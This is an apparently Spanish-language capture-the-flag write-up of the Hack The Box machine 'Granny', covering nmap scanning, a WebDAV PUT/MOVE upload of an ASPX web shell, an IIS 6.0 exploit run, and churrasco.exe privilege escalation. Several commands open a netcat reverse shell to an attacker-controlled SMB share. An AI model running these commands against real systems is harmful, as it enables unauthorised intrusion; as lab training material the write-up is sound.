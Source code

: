 ```yaml
---
layout: post
title: "Write Up Granny."
subtitle: "Starting-Point"
category: Blog
tags: [Easy,Genin,Windows,HTB,RCE,Token,CVE,WebDav,ASP,IIS,Web,Vulnerability-Assessment,Outdated-Software,Reconnaissance,Arbitrary-File-Upload,Misconfiguration,Churrasco,OSCP,eWPT,eJPTv2]
image:
  path: /assets/img/granny/Captura%20de%20pantalla%20(304).png
---
```


***
<!--more-->

1. this ordered seed list will be replaced by the toc
{:toc}

***

## Reconnaissance


### nmap


```bash
sudo nmap --open -p- -Pn -n -vvv --min-rate 5000 -sS 10.10.10.15 -oG allports
```
![list](/assets/img/granny/Parrot-2022-12-17-16-09-07.png){:.lead width="800" height="100" loading="lazy"}


### Services and Versions


```bash
nmap -sCV p80 10.10.10.15 -oN target
```

![list](/assets/img/granny/Parrot-2022-12-17-16-11-10.png){:.lead width="800" height="100" loading="lazy"}


***
## Vulnerability Analysis


### HTTP TCP 80


Uso de Investigacion web, Google Hacking,Google Dorks y recopilación de información gracias a servicios de terceros.e ispeccionamos la web, ademas de las tecnologias de la ip ataves de la terminal o via web esto lo hacemos con wapalizzer o whatweb.


![list](/assets/img/granny/Parrot-2022-12-17-16-11-32.png){:.lead width="800" height="100" loading="lazy"}


Con el resultado del scaneo de nmap sabemos que estamos ante una tecnologia llamada `WebDav` que es protoclo que nos permite gusrdar, mover, etc achivos sin depender de un servidor web asi que con serchsploit procedemos a buscar alguna vulnerabilidad y tambien buscaremos `IIS 6.0`.


![list](/assets/img/granny/Parrot-2022-12-17-16-17-27.png){:.lead width="800" height="100" loading="lazy"}

{:.note}
WebDav


![list](/assets/img/granny/Parrot-2022-12-17-16-22-00.png){:.lead width="800" height="100" loading="lazy"}

{:.note}
IIS 6.0


Con davtest vamos hacer un pequeño test oara ver opciones tenemos disponibles.


![list](/assets/img/granny/Parrot-2022-12-17-16-26-17.png){:.lead width="800" height="100" loading="lazy"}

{:.note}
Las que estan habilitadas son las que dicen `SUCCEED`.


Con eso en mete vamos a usar `PUT` para depositar algunos binarios como lo es cmd.aspx en el servidor. 


Claro pero como vimos con davtest no podemos subir el `cmd.aspx` pero no hay ningun problema lo que vamos hacer es cambiarles el nombre a cmd.txt y luego como el parametro `MOVE` loes cambiaremos el nombre para vuelva a cmd.aspx respectivamente. 


```bash
curl -s -X PUT http://10.10.10.5/cmd.txt -d @cmd.txt
```


```bash
curl -s -X Move "Destination:http://10.10.10.5/cmd.aspx" http://10.10.10.5/cmd.txt 
```

{:.note}
Subimos y movemos cmd.aspx.


## Exploitation


Luego  nos subimo con smmbserver nos compartimos el netcat y nos lo ejecutamos eso no dara la reverse-shell.


![list](/assets/img/granny/Parrot-2022-12-17-17-22-56.png){:.lead width="800" height="100" loading="lazy"}


```bash
//10.10.16.14/SmbFolder/nc.exe -e cmd 10.10.16.14 443 
```

{:.note}
Debemos estar a la escucha por el puerto 443.


U otra forma era cuando buscamos vulnerabilidaes al pricio de IIS 6.0 es hora de usarlo es el que dice remote buffer overflow que le vamos a cambiar el nombre y lo vamos a ejecutar.


```bash
python2 exploit.py 10.10.10.5 80 10.10.16.14 443 
```

{:.note}
Debemos estar a la escucha por el puerto 443 pero aun no podemos ver la flag del usuario de bajos privileguios.


***
## Escalacion de privilegios 


Siempre es bueno ejecutar `WimEnum` Y `ADEnum` para monitorizar y ver los posibles vectores para escalar de privilegios.


Una ves dentro hacemos un whoami /priv para ver que privileguios podemos explotar, pero como es un `Windows Server 2013` no podemos usar el `JuicePotato` sino una variante que llama [churrasco.exe] la cual la vamos a descargar para luego subirla ala maquina victima  con `cerutil`s y ejecutarla.


[churrasco.exe]:(https://binaryregion.wordpress.com/2021/08/04/privilege-escalation-windows-churrasco-exe/)


![list](/assets/img/granny/Parrot-2022-12-17-17-26-57.png){:.lead width="800" height="100" loading="lazy"}


![list](/assets/img/granny/Parrot-2022-12-17-17-46-21.png){:.lead width="800" height="100" loading="lazy"}



```bash
churrasco.exe //10.10.16.14/SmbFolder/nc.exe -e cmd 10.10.16.14 443
```


{:.note}
En este punto podemos subir el netcat o con smbserver atraves de un recurso compartido otorgarnos una reverse-shell y no olvidanos que debemos estar a la escucha con netcat en el puerto 443.


![list](/assets/img/granny/Parrot-2022-12-17-17-59-52.png){:.lead width="800" height="100" loading="lazy"}


De una ves podemos buscar la flag del usuario de bajos privileguios que estaba en `Documentos and Settings`.


![list](/assets/img/granny/Parrot-2022-12-17-18-07-42.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
La flag esta en el ecritorio del usuario priviligiado.

***
```bash
🎉 Felicitaciones ya has comprometido Granny de Hack The Box. 🎉
```
{:.centered}
***

Back to [Certification eJPTv2](2023-07-03-Road-to-eJPTv2.md){:.heading.flip-title}
{:.read-more}

***
Back to [Certification eWPT](){:.heading.flip-title}
{:.read-more}

***
Back to [Certification OSCP](){:.heading.flip-title}
{:.read-more}
